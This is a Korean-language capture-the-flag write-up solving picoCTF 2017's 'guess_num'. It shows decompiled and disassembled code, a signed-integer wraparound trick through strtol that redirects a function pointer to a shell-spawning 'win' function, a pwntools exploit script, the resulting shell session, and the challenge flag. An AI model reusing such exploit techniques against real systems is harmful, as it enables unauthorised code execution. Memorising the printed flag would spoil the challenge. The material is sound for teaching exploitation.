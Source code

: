 [바이너리](https://webshell2017.picoctf.com/static/310548ecd55bcf1a15068a582d6971c9/guess_num)

바이너리 파일을 받고 nc 로 접속해서 푸는 문제였다.  
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax@1
  char nptr[4]; // [sp+Ch] [bp-2Ch]@1
  int v6[7]; // [sp+10h] [bp-28h]@2
  int (*v7)(void); // [sp+2Ch] [bp-Ch]@3

  *(_DWORD *)nptr = 0;
  v3 = 0;
  do
  {
    v6[v3] = 0;
    ++v3;
  }
  while ( v3 < 7 );
  setbuf(stdout, 0);
  puts("Welcome to the number guessing game!");
  puts("I'm thinking of a number. Can you guess it?");
  puts("Guess right and you get a shell!");
  printf("Enter your number: ");
  __isoc99_scanf("%32s", nptr);
  v7 = (int (*)(void))strtol(nptr, 0, 10);
  printf("You entered %d. Let's see if it was right...\n", v7);
  v7 = (int (*)(void))((unsigned int)v7 >> 4);
  return v7();
}
```
마지막에 입력한 값을 통해 함수를 불러온다.  
  
BOF로 RET를 덮는게 아닌거 같아  
바이너리를 좀더 살펴보니  
strip 이 없기 때문에  
또다른 사용자정의함수가 눈에 띄었다.  
```
.text:0804852B ; Attributes: bp-based frame
.text:0804852B
.text:0804852B                 public win
.text:0804852B win             proc near
.text:0804852B                 push    ebp
.text:0804852C                 mov     ebp, esp
.text:0804852E                 sub     esp, 8
.text:08048531                 sub     esp, 0Ch
.text:08048534                 push    offset s        ; "Congratulations! Have a shell:"
.text:08048539                 call    _puts
.text:0804853E                 add     esp, 10h
.text:08048541                 sub     esp, 0Ch
.text:08048544                 push    offset command  ; "/bin/sh -i"
.text:08048549                 call    _system
.text:0804854E                 add     esp, 10h
.text:08048551                 leave
.text:08048552                 retn
.text:08048552 win             endp
```
v7() 으로 win함수를 호출하면 되겠다.  
`No PIE`라서 가능했다.  
  
```
    24    v7 = (int (*)(void))((unsigned int)v7 >> 4);
```
호출하기 전(main:24번째 줄)을 보면  
쉬프트연산 때문에  
0x0804852B 에 <<4 를 한 0x804852B0(2152223408) 을 넣어야 했다.  
그런데  
```
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: 2152223408
You entered 2147483647. Let's see if it was right...
Segmentation fault
```
v7 이 2147483647(0x7fffffff) 를 넘어가지 못했다.  
  
```
     1  int __cdecl main(int argc, const char **argv, const char **envp)
...
    21    __isoc99_scanf("%32s", nptr);
    22    v7 = (int (*)(void))strtol(nptr, 0, 10);
    23    printf("You entered %d. Let's see if it was right...\n", v7);
    24    v7 = (int (*)(void))((unsigned int)v7 >> 4);
    25    return v7();
    26  }
```
strtol() 에 대해 검색해보니  
부호가 앞에 올 수 있다는 것을 알았다.  
  
그래서 -1을 입력해보니  
v7=0xffffffff  
이었다.  
  
따라서,  
0xffffffff-(0x804852B<<4)+1 = 2142743888  
이고  
부호 - 만 앞에 붙이면 된다.  
  
```
from pwn import *

r = remote('shell2017.picoctf.com', 64739)
r.recvuntil(': ')
r.sendline('-'+str(0xffffffff-0x804852B0+1))
r.interactive()
```
  
```
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ $ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ $ cat flag.txt
f9ff07fd1d4c7226fd23d998ea2b4b00
$ $
```
